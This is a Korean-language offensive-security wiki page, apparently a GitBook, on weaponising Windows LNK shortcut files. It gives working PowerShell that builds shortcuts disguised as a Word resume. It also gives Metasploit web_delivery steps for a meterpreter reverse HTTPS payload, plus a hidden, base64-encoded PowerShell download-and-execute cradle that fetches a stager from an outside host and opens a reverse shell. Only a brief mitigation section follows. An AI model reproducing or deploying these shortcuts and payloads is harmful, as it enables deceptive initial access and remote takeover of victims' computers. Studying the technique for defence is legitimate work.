 # LNK

윈도우의 바로가기 파일은 `.LNK` 확장자를 갖고 있으며, 최대 255자의 `targetpath` 파라미터와 4096자의 `argument` 를 실행할 수 있다. 초기 침투 시 단일 파일로 사용될 수도 있지만, 짧은 커맨드 길이 때문에 다른 페이로드들을 실행시키는데 더 자주 사용된다.

수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다.

* lnk -> Powershell -> 인 메모리 실행
* lnk -> .dll download -> DLL side loading / DLL hijacking / LOLBAS with regsvr32.dll
* lnk -> Powershell -> HTA
* lnk -> .exe + DLL sideloading

DLL 사이드로딩과 관련된 APT 29의 LNK + DLL Sideloading 기법은 다음 페이지에서 볼 수 있다 (TODO)

### 실습

다음은 `cmd.exe` 바이너리를 실행하는 간단한 LNK 파일을 만드는 파워쉘 명령어다.

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\opt\lnk\Choi_Resume_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start cmd.exe"
$link.save()
```

마이크로소프트 워드의 아이콘을 갖은 LNK 파일을 생성해낸다. 오른쪽 클릭해서 shortcut을 확인해보면 `Target` 에 위에서 만든 페이로드인 `%windir%/system32/cmd.exe` 를 실행한다.

![](<../../.gitbook/assets/image (10) (1).png>)

### 실습 - 2

다음은 파워쉘 페이로드를 가져와 메모리상에서 실행하는 방법이다. 악용을 막기 위해 AMSI bypass 등은 실행하지 않는다. 먼저 개념 증명용 페이로드를 위해 메타스플로잇을 사용한다.

```
msfconsole 
use exploit/multi/script/web_delivery
set pyaload windows/x64/meterpreter/reverse_https 
set lhost <ip> 
set lport <port> 
exploit 

[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.40.182:443
[*] Using URL: http://192.168.40.182:8080/3XQSv3
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e <....>
```

웹 딜리버리를 실행시키면 스테이저 파일이 호스팅된 URL이 나온다. 위 예시의 경우 `http://192.168.40.182:8080/3XQSv3` 여기에 스테이저가 호스팅 되어 있다. 따라서 해당 파일을 메모리상에서 실행하는 LNK 파일을 만들어준다.

```
$command = 'iex(new-object net.webclient).downloadstring("http://192.168.40.182:8080/3XQSv3")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\testdefender\Choi_Resume.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "-Nop -w hidden -enc $($encodedCommand)"
$link.save()
```

작전 보안과 방어 우회를 위해서는 호스팅 되어있는 스테이저 파일에 AMSI 우회 코드를 넣어주면 된다. 이 실습은 개념 증명용이니 넘어간다. 해당 LNK 파일을 만들고 실행하면 리버스 쉘을 받을 수 있다.

### 대응 방안

LNK 파일은 윈도우의 기본적인 바로가기 파일이기 때문에 기술적으로 비활성화 시킬수는 없다. 단, LNK 파일의 `targetPath` 과 `arugments` 에 들어가는 페이로드는 엔드포인트의 디스크위에 쓰일 수 밖에 없다. 따라서 AV/EDR 등의 엔드포인트 방어 솔루션들이 LNK 파일을 잘 분석한다면 충분히 막을 수 있을 것이다. 실제로 간단한 파워쉘 페이로드를 실행시키려고 하면 왠만한 페이로드들은 모두 막힌다.

엔드 유저의 입장에서는 LNK 파일에 주의한다. LNK 파일은 기본적으로 확장자가 보이지 않기 때문에 파일 익스플로러에서 `Shortcut` 혹은 `바로가기` 가 있다면 오른쪽 클릭을 해서 `TargetPath` 를 한 번 살펴보는 습관을 들인다.

![](<../../.gitbook/assets/image (7) (2) (1).png>)

### 레퍼런스

{% embed url="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/" %}

{% embed url="https://docs.google.com/viewerng/viewer?url=https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}
